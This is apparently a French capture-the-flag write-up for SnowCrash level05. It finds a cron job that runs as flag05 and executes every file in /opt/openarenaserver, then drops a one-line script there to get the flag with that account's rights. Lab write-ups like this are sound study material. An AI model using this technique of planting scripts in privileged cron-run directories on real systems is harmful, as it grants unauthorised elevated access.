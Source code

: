 # Level 05

Quand on se connecte au compte `level05` on voit un message qui dit `You have new mail.`<br>
les mails sont stockés dans `/var/mail/$USER`

```sh
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

C'est un cronjob qui execute `sh /usr/sbin/openarenaserver` en tant que `flag05` toutes les 2 minutes

```sh 
level05@SnowCrash:/tmp$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

C'est un script qui execute tous les fichiers contenus dans /opt/openarenaserver puis les supprime

On crée un exploit qui va lui faire exécuter getflag et stocker le résultat dans un fichier txt: ```echo 'getflag >> /tmp/flag.txt' > /opt/openarenaserver/exploit.sh```

Au bout de quelques minutes, on fait `cat /tmp/flag.txt`, et on obtient le flag
